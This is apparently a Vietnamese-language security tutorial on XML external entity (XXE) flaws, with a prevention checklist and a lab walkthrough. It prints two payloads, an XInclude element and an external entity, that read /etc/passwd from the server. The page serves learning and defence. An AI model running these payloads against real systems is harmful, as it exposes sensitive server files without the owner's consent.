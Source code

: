 ```
<foo xmlns: xi = "http://www.w3.org/2001/XInclude">
<xi: include parse = "text" href = "file: /// etc / passwd" /> </foo>

```

### Prevent XXE vulnerabilities

Các lỗ hổng XXE đều phát sinh do thư viện phân tích cú pháp XML của ứng dụng hỗ trợ các tính năng XML tiềm ẩn nguy hiểm ma fungws dụng không cần hoặc có ý định sử dụng. CÁch dễ nhất và hiệu quả nhất là vô hiệu hóa những chức năng tiềm ẩn nguy hiểm đó.

  + Bất cứ khi nào có thể, hãy sử dụng các định dạng dữ liệu ít phức tạp hơn như JSON và tránh tuần tự hóa dữ liệu nhạy cảm.

  + Vá hoặc nâng cấp tất cả các bộ xử lý và thư viện XML được ứng dụng hoặc trên hệ điều hành cơ bản sử dụng. Sử dụng bộ kiểm tra phụ thuộc. Cập nhật SOAP lên SOAP 1.2 hoặc cao hơn.
  
  + Triển khai xác thực, lọc hoặc khử trùng đầu vào tích cực phía máy chủ để ngăn chặn dữ liệu thù địch trong các tài liệu, tiêu đề hoặc nút XML.

  + Xác minh rằng chức năng tải lên tệp XML hoặc XSL kiểm tra XML đến bằng cách sử dụng xác thực XSD hoặc tương tự.

  + Các công cụ Kiểm tra Bảo mật Ứng dụng Tĩnh có thể phát hiện XXE trong mã nguồn, nhưng xem xét mã thủ công là giải pháp thay thế tốt nhất trong các ứng dụng phức tạp với nhiều tích hợp.



## XXE Lab


### Lab: Exploiting XXE using external entities to retrieve files

```
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.
```
 Mô tả trên đã chỉ ra cho chúng ta biết lỗi chúng ta có thể khai thác nằm ở chức năng "Check stock" của web, và yêu cầu chúng ta leak được file passwd thì sẽ hoàn thành.

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_retrievefile_web.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_retrievefile_checkstock.png?raw=true)


Sau khi check stock và bắt lạ request chúng ta có thể thấy 1 XML cơ bản và cách exploit vô cùng đơn giản.

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_retrievefile_checkstock_request.png?raw=true)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId></stockCheck>
```
